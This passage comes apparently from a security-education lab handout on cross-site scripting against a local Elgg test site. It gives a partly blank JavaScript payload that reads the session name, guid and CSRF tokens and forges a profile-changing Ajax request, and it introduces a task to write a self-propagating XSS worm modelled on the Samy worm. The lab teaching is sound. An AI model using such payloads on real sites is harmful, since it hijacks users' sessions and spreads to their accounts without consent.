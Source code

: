 \begin{lstlisting}
<script type="text/javascript">
window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts 
  //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the content of your url.
  var content=...;     //FILL IN

  var samyGuid=...;    //FILL IN
  if(elgg.session.user.guid!=samyGuid)           (*@ \ding{192} @*)
  {
     //Create and send Ajax request to modify profile
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST",sendurl,true);
     Ajax.setRequestHeader("Host","www.xsslabelgg.com");
     Ajax.setRequestHeader("Content-Type",
                           "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}
</script>
\end{lstlisting}

Similar to Task 4, the above code should be placed in the \texttt{"About Me"} field of Samy's
profile page, and the Text mode should enabled before entering the above JavaScript code.


\paragraph{Questions.} Please answer the following questions:

\begin{itemize}
\item \textbf{Question 3:} Why do we need Line ? Remove this line, and repeat 
your attack. Report and explain your observation.
\end{itemize}
 



\subsection{Task 6: Writing a Self-Propagating XSS Worm}

To become a real worm, the malicious JavaScript program should be able to propagate itself.
Namely, whenever some people view an infected profile, 
not only will their profiles be modified, the worm will also be 
propagated to their profiles, further affecting others who view these newly infected profiles.
This way, the more people view the infected profiles, the faster the worm can propagate. 
This is exactly the same mechanism used by the Samy Worm: 
within just 20 hours of its October 4, 2005 release, over one million users 
were affected, making Samy one of the fastest spreading viruses of all time.
The JavaScript code that can achieve this is called 
a {\em self-propagating cross-site scripting worm}. In this task, you need to 
implement such a worm, which not only modifies the victim's profile and adds the user
``Samy'' as a friend, but also add a copy of the worm itself to the victim's profile, so the
victim is turned into an attacker.


